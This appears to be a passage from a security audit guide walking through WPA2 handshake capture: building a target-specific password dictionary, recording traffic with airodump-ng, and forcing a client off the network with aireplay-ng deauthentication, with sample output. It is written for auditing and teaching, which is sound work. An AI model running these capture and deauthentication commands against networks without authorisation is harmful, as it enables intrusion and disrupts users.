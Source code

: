 
  **Step 1:** The attacker customizes their WiFi password dictionary, adding
  phrases related to the subject: organization name, street address, phone
  number, email domain, wireless network name, etc. Common password fragments
  are included, as well: qwerty, 12345, asdf and all four-digit dates back to
  the year 2001, for example, among others. The attacker may then add hundreds
  or thousands of words (in English and/or other relevant languages).


  See the [Password Strength Activity](https://guide.safetag.org/activities/password_strength) for details on password dictionary building
  and usage.


  **Step 2:** The attacker would then begin recording all (encrypted) wireless
  traffic associated with the organization’s access point:


  ```

  $ sudo airodump-ng -c 1 --bssid 1A:2B:3C:4D:5E:6F -w sampleorg_airodump mon0

   CH  1 ][ Elapsed: 12 mins ][ 2012-01-23 12:34 ][ fixed channel mon0: -1
   BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
   1A:2B:3C:4D:5E:6F  -70 100    12345    43210    6   1  12e. WPA2 CCMP   PSK sampleorg
   BSSID              STATION            PWR   Rate    Lost  Packets  Probes
   1A:2B:3C:4D:5E:6F  01:23:45:67:89:01    0    0e- 0e   186    12345
   1A:2B:3C:4D:5E:6F  AB:CD:EF:AB:CD:EF    0    1e- 1      0     1234
   1A:2B:3C:4D:5E:6F  AA:BB:CC:DD:EE:FF  -76    0e- 1      0     1122
   1A:2B:3C:4D:5E:6F  A1:B2:C3:D4:E5:F6  -80    0e- 1      0     4321
  ```


  wifite is also useful for this step, and claims to automatically de-auth (step
  3).


  **Step 3:** Next, the auditor forces a wireless client, possibly chosen at
  random, to disconnect and reconnect (an operation that is nearly always
  invisible to the user).


  In the example below, AB:CD:EF:AB:CD:EF is the MAC address of a laptop that
  was briefly disconnected in this way.


  ```

  $ aireplay-ng -0 1 -a 1A:2B:3C:4D:5E:6F -c AB:CD:EF:AB:CD:EF mon0

   15:54:48  Waiting for beacon frame (BSSID: 1A:2B:3C:4D:5E:6F) on channel -1
   15:54:49  Sending 64 directed DeAuth. STMAC: [AB:CD:EF:AB:CD:EF] [ 5| 3 ACKs]
  ```


  The goal of this step is to capture the cryptographic handshake that occurs
  when the targeted client reconnects. Try using different clients if the first
  one doesn't work, or try (physically) moving around.

